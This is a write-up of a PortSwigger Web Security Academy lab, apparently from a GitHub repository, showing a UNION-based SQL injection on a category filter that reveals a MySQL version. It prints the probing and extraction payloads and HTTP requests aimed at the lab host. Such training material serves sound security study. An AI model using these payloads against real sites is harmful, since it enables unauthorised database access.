



# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

The objective is to exploit the SQL injection flaw to query the database type and version on MySQL or Microsoft SQL Server, displaying the database version string to solve the lab.

---

## Step 1 — Intercept the Category Filter Request
Navigate to the application home page and select any product category filter (e.g., `Tech+gifts`) to generate a filtered request.

Capture this HTTP `GET` request using Burp Suite and send it to the Repeater instrument for manual analysis.

### Example Base Request
GET /filter?category=Tech+gifts HTTP/1.1
Host: 0a4f005a03c1d33a8080c6bc00aa007b.web-security-academy.net

---

## Step 2 — Identify SQL Injection Vulnerability
To test whether the `category` parameter interacts directly with the database backend, a single quote character (`'`) was appended to the input value. Furthermore, a MySQL-style comment sequence (`--+`) was tested to check query restoration.

### Tested Requests & Behaviors
1. **Broken Query:** `Tech+gifts'` -> Returned **500 Internal Server Error**. The unclosed single quote disrupted the SQL syntax logic.
2. **Fixed Query:** `Tech+gifts'--+` -> Returned **200 OK**. The database treated the injected single quote as a valid string termination, and the `--+` successfully commented out the remainder of the original developer query.

### Screenshots

---

## Step 3 — Determine the Number of Columns
To execute a functional `UNION` attack, the exact column count of the original query must be satisfied. Unlike Oracle, MySQL does not require a dummy table clause like `FROM dual`, allowing direct projection of injected properties via `SELECT`.

### Tested Payloads
1. `Tech+gifts'+UNION+SELECT+NULL--+` -> Result: 500 Internal Server Error
2. `Tech+gifts'+UNION+SELECT+NULL,NULL--+` -> Result: 200 OK

### Modified Request
GET /filter?category=Tech+gifts'+UNION+SELECT+NULL,NULL--+ HTTP/2
Host: 0a4f005a03c1d33a8080c6bc00aa007b.web-security-academy.net

### Result
* **HTTP Status Code:** 200 OK
* **Conclusion:** The successful response triggers explicitly at two `NULL` columns, verifying the backend query infrastructure expects exactly **2 columns**.

### Screenshots

---

## Step 4 — Exploit SQL Injection to Retrieve MySQL Version
With the column count established as 2 and the commentary format verified as `--+`, the final step is to leverage the appropriate environment function to extract database architecture details. 

Unlike Microsoft SQL Server which leverages `@@version`, MySQL natively supports the `version()` function call to drop string indicators regarding its deployment layer. The payload injects `version()` into the first column slot while maintaining a structural `NULL` component inside the second column.

### Payload Used
Tech+gifts'+UNION+SELECT+version(),NULL--+

### Modified Request
GET /filter?category=Tech+gifts'+UNION+SELECT+version(),NULL--+ HTTP/2
Host: 0a4f005a03c1d33a8080c6bc00aa007b.web-security-academy.net

### Result
* **HTTP Status Code:** 200 OK
* **Response:** The application successfully integrated the database string (`8.0.42-0ubuntu0.20.04.1`) directly into the dynamic UI rendering pipeline, causing the PortSwigger test case to evaluate as solved.

---

## Evidence
Burp Suite Repeater — Successful MySQL Version Injection  
Web Application — Lab Solved Notification

